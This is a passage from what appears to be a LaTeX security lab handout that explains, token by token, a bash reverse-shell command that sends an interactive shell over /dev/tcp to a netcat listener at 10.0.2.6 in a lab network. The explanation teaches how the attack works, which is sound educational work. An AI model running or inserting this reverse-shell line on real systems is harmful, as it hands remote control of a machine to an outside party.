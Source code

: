 \begin{itemize}
\item \texttt{"/bin/bash -i"}: The option \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt).

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: This causes the output device~(\texttt{stdout}) of the shell
  to be redirected to the TCP connection to \texttt{10.0.2.6}'s port \texttt{9090}.
  In \unix systems, \texttt{stdout}'s file descriptor is \texttt{1}.

\item \texttt{"0<\&1"}: File descriptor \texttt{0} represents the standard input device~(\texttt{stdin}).
  This option tells the system to use the standard output device as the stardard input device.
  Since \texttt{stdout} is already redirected to the TCP connection, this option basically
  indicates that the shell program will get its input from the same TCP connection.

\item \texttt{"2>\&1"}: File descriptor \texttt{2} represents the standard error \texttt{stderr}. This
  causes the error output to be redirected to \texttt{stdout}, which is the TCP connection.
\end{itemize}

In summary, the command \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell on the server machine, with its input coming from a TCP connection,
and output going to the same TCP connection.
In our experiment, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.6}. This is confirmed via the \texttt{"Connection from 10.0.2.5 ..."} 
message displayed by \texttt{netcat}.






\section{Submission}

\seedsubmission




